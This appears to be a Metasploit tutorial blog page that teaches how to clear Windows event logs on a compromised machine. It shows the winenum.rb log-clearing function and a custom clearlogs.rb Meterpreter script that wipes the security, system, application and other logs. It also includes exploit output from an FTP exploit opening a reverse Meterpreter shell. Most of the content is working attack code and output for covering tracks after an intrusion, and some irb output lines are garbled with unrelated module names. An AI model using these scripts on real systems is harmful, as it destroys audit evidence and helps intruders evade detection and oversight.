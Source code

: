```yaml
---
draft: false
title: MSF Log Management
linkTitle: Log Management
translationKey: msf-log-management
weight: 290
date: 2017-06-05T13:21:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will look at how the 'winenum' script codes provided by meterpreter work to clear the logs of the target computer.
url: /msf-log-management/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
---
```

Sometimes you may want to clear the logs of the operations you perform on the target computer. For this clearing process, let's first look at how the `winenum` script codes provided by meterpreter work. You can find the script file under your Metasploit Framework folder at `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb`. There are many sections in this file. For now, we will only deal with the `# Function for clearing all event logs` section.

```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs = [
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  ]
  print_status("Clearing Event Logs, this will leave and event 517")
  begin
    evtlogs.each **do** |evl|
      print_status("\tClearing the #{evl} Event Log")
      log = @client.sys.eventlog.open(evl)
      log.clear
      file_local_write(@dest,"Cleared the #{evl} Event Log")
    end
    print_status("All Event Logs have been cleared")
  rescue ::Exception => e
    print_status("Error clearing Event Log: #{e.class} #{e}")

  end
end
```

Those interested in programming will easily understand the codes and how the function works. Let's briefly explain what the above codes do. The `evtlogs.each do |evl|` loop opens and cleans Windows' 'security', 'system', 'application', 'directory service', 'dns server' and 'file replication service' logs, respectively.

Now, instead of the ready script, let's create and save our own script code by taking the example from the file above. For this, we will use Ruby coding in Meterpreter. You can see the Windows Log status before cleaning from the picture below.

![Eventlog](/images/Eventlog-00.png)

Since we only want to clean the 'system' logs, we will only use the `log = client.sys.eventlog.open('system')` status from the loop above.

## We are testing in this part

First, we must have opened a meterpreter shell on the target computer.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 2 opened (172.16.104.130:4444 -> 172.16.104.145:1246)
```

Then, we run the Ruby coder from the meterpreter shell with the `irb` command and paste the following codes.

```bash
meterpreter > irb
> Starting IRB shell
> The 'client' variable holds the meterpreter client
**>>** log = client.sys.eventlog.open('system')
=> #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"=>#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```
Now, let's check whether the logs are cleared with the `log.clear` command in meterpreter.

```bash
**>>** log.clear
=> #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

![Eventlog](/images/Eventlog-01.png)

We tried a simple log cleaning using Ruby coder in Meterpreter and we were successful in our check. We can write our own script codes using this approach.

## Clearing All Logs

Writing the following codes to a file Save it in the `/usr/share/metasploit-framework/scripts/meterpreter/` folder with the name `clearlogs.rb`.

```bash
evtlogs = [
 'security',
 'system',
 'application',
 'directory service',
 'dns server',
 'file replication service'
 ]
print_line("Clearing Event Logs, this will leave an event 517")
evtlogs.each **do** |evl|
 print_status("Clearing the #{evl} Event Log")
 log = client.sys.eventlog.open(evl)
 log.clear
end
print_line("All Clear! You are a Ninja!")
```

Now you can run these newly created script codes in the newly opened Meterpreter sessions.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1253)

meterpreter > run clearlogs
Clearing Event Logs, this will leave an event 517
> Clearing the security Event Log
> Clearing the system Event Log
> Clearing the application Event Log
> Clearing the directory service Event Log
> Clearing the dns server Event Log
> Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter > exit
```

As seen in the picture below, all logs have been cleared. Only process number 517 remains. Since that process is still the process where meterpreter is running, it is still active.

![Eventlog](/images/Eventlog-03.png)

In this article, we tried to write our own script file and clear the log by taking the Scripts in the Metasploit Framework as an example. We recommend that you also examine the other script files in the `/usr/share/metasploit-framework/scripts/meterpreter/` folder. This way, you will learn the possibilities you have.

